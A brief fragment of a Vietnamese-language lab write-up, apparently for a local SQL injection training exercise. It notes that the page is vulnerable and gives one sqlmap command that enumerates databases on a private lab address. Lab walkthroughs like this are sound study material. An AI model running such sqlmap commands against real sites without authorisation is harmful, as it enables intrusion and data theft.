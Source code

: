 ![alt text](./src/image-16.png)
Test thử thì nhận thây web đang gặp lỗ hổng SQL injection
![alt text](./src/image-17.png)
Khai thác với sqlmap
Tìm tên các database
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/get-blind-error/index.php?img=2" --batch --dbs
```